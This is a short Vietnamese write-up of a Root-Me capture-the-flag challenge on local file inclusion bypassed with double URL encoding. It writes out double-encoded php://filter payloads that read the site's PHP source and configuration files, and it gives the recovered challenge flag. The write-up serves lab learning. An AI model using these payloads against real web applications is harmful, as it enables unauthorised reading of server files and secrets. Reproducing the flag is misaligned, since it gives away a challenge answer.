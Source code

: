 # [Local File Inclusion - Double encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

## Solutions

Sử dụng kĩ thuật double encode để bypass: [link](https://owasp.org/www-community/Double_Encoding)

- .: %252E
- /: %252F

Sử dụng filter để đọc nội dung các file:

- `php:%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource=index%252Ephp%00`: bị lỗi `include(): Failed opening`
- `php:%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource=cv%252Einc%252Ephp%00`: cũng bị lỗi `include(): Failed opening`
- Nếu không dùng null byte thì được, tuy nhiên chỉ đọc được những file có đuôi `.inc.php`, thử đọc file cv.inc.php `php:%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource=cv`, decode data nhận được:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - CV</title>
...
```

- Tương tự đọc file conf.inc.php:

```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
...
```

- Lấy được flag: `Th1sIsTh3Fl4g!`

## References

- <https://owasp.org/www-community/Double_Encoding>
